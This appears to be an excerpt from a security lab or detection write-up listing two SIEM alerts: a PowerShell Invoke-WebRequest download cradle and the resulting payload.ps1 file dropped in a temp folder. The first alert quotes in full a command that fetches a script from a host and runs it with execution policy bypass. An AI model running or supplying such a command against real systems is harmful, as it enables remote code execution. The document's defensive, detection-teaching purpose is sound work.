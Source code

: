 ### Details

#### 1. Aug 14, 2025 - 15:56:58.071

- Event ID: `4103 - PowerShell Operational`
- Rule ID: `100206`
- Rule description: `Invoke Webrequest executed, possible download cradle detected.`
- Detail: `Command Invocation: Invoke-WebRequest`: `http://192.168.200.132:8000/Test.ps1' -OutFile $env:TEMP\payload.ps1; powershell -ep bypass -f $env:TEMP\payload.ps1`
![image](assets/images4/7.png)

#### 2. Aug 14, 2025 - 15:56:58.884

- Event ID: `11 - Sysmon`
- Rule ID: `92213`
- Rule description: `Executable file dropped in folder commonly used by malware`
- Rule level : `15`
- Detail: `File created`: `C:\Users\noname\AppData\Local\Temp\payload.ps1`
![image](assets/images4/8.png)
